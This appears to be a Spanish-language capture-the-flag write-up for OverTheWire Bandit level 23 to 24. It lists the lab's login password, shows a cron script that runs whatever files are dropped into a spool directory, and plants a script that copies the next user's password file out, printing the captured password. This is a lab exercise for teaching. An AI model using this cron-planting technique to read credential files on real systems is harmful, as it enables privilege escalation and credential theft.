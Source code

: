 # Level 23 to Level 24

## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
Host: bandit.labs.overthewire.org  
Port: 2220
Username: bandit23
Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

## Solución
Lo que hace el script del cronjob es ejecutar todos los scripts de la carpeta y borrarlos. Solo es cuestión de crear nuestro propio script para tomar ventaja de esto.

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
bandit23@bandit:~$ mkdir /tmp/bandit2444 && cd /tmp/bandit2444
bandit23@bandit:/tmp/bandit2444$ vim zcript.sh
bandit23@bandit:/tmp/bandit2444$ cat zcript.sh
cat /etc/bandit_pass/bandit24 > /tmp/bandit2444/password
bandit23@bandit:/tmp/bandit2444$ chmod +x zcript.sh
bandit23@bandit:/tmp/bandit2444$ chmod 666 password
bandit23@bandit:/tmp/bandit2444$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 14:23 .
drwxrwx-wt 2779 root     root     106496 Feb 28 14:24 ..
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 14:23 password
-rwxrwxr-x    1 bandit23 bandit23     58 Feb 28 14:21 zcript.sh
bandit23@bandit:/tmp/bandit2444$ cp zcript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/bandit2444$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 14:23 .
drwxrwx-wt 2779 root     root     106496 Feb 28 14:27 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 14:27 password
-rwxrwxr-x    1 bandit23 bandit23     58 Feb 28 14:21 zcript.sh
bandit23@bandit:/tmp/bandit2444$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

## Notas adicionales


## Referencias

